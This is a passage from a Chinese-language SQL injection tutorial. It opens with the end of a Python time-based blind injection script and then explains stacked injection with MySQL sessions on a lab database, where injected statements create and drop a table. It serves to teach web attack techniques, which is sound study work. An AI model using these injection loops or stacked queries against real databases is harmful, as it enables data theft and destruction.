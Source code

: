 ```python

        if min + 1 == max:
            break

        if time.time() - start_time > 3:# 判断返回的数据是否有正确返回的数据
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
```





# 堆叠注入

堆叠注入，从名词的含义就可以看到应该是**一堆 SQL 语句（多条）一起执行**。

union injection(联合注入)也是将两条语句合并在一起，，他们之间的区别就是union注入执行的语句是有限的，而堆叠注入可以执行任意语句.示例：

```mysql
mysql> select * from users where id ='1';create table test like users;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
Query OK, 0 rows affected (0.02 sec)


mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| test               |
| uagents            |
| users              |
+--------------------+
5 rows in set (0.00 sec)


mysql> select * from users where id ='1';drop table test;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
Query OK, 0 rows affected (0.00 sec)
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
```